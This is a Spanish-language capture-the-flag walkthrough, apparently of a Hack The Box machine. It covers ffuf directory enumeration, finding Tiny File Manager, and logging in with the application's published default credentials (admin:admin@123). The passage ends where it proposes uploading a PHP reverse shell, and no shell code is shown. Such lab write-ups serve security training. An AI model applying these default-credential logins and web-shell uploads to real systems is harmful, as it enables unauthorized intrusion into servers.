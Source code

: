 #### Puerto 80 ####

Accediendo al puerto 80, el navegador redirige al dominio **soccer.htb**, el cual hay que añadir en el archivo `/etc/hosts`. La pagina contiene informacion sobre un equipo de futbol llamado "HTB". Como no hay mas informacion en la web, pasamos a enumerar archivos y directorios con **ffuf**:
```
focab0r@arsenium:~$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://soccer.htb/FUZZ


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://soccer.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 89ms]
    * FUZZ: tiny
```
El directorio `tiny` redirige a un login, tras el cual se encuentra una aplicacion llamada **Tiny File Manager**. Como las credenciales comunes no funcionan, buscamos las credenciales por defecto de la aplicacion, las cuales se pueden encontrar en el repositorio de [GitHub oficial](https://github.com/prasathmani/tinyfilemanager), visitando el archivo `tinyfilemanager.php`:
```
<...SNIP...>

// Login user name and password
// Users: array('Username' => 'Password', 'Username2' => 'Password2', ...)
// Generate secure password hash - https://tinyfilemanager.github.io/docs/pwd.html
$auth_users = array(
    'admin' => '$2y$10$/K.hjNr84lLNDt8fTXjoI.DBp6PpeyoJ.mGwrrLuCZfAwfSAGqhOW', //admin@123
    'user' => '$2y$10$Fg6Dz8oH9fPoZ2jJan5tZuv6Z4Kp7avtQ9bDfrdRntXtPeiMAZyGO' //12345
);

<...SNIP...>
``` 
El par `admin:admin@123` es valido, y permite loguearnos en el gestor de archivos de la pagina web, donde podemos subir nuestros propios archivos. Subiendo un php que contenga una reverse shell como el siguiente, y accediendo desde el navegador, se obtiene el foothold.
